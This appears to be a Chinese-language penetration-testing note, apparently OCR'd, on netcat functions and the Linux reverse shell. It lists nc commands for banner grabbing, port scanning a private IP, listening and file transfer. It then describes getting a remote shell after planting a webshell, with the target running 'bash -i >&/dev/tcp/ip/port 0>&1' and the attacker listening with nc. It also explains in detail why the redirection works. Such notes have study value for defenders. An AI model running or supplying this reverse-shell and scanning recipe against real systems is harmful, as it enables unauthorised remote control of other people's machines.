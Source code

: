 3.相关netcat主要功能测试

指纹服务：nc -nv 192.168.76.143

端口扫描：nc -v -z 192.168.76.143 1-100

端口监听：nc -lvp xxxx

文件传输：nc -lp 1111 >1.txt | nc -vn xx.xx.x.x 1111 <1.txt -q 1

反弹Shell：见上





# 反弹SHELL

拿到webshell后Linux拿反弹shell(适用版本centos)

目标机执行

​	bash -i >&/dev/tcp/ip/port 0>&1

攻击机执行

​	nc -lvp 7777

命令执行原理

​	bash -i代表在本地打开一个bash，然后就是/dev/tcp/ip/port，/dev/tcp/是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个	  	socket连接，>&后面跟上/dev/tcp/ip/port这个文件代表将标准输出和标准错误输出重定向到这个文件，也就是传递到远程上，如果远程开启了对应的端口去监	听，就会接收到这个bash的标准输出和标准错误输出，这个时候我们在本机CentOS输入命令，输出以及错误输出的内容就会被传递显示到远程。

加上0>&1与不加的区别

首先了解>&

​	当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
​	当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符

了解	0	1

​	o - stdin 代表标准输入,使用<或<<

​	1 - stdout 代表标准输出,使用>或>>

​	2 - stderr 代表标准错误输出,使用2>或2>>

所以

​	bash -i >&/dev/tcp/ip/port
​	只是把输出输送到远程终端，而且需要在centos里输入

而

​	bash -i >&/dev/tcp/ip/port 0>&1或者bash -i >&/dev/tcp/ip/port 0>&2

​	可从kali输入命令在centos上执行并返回执行结果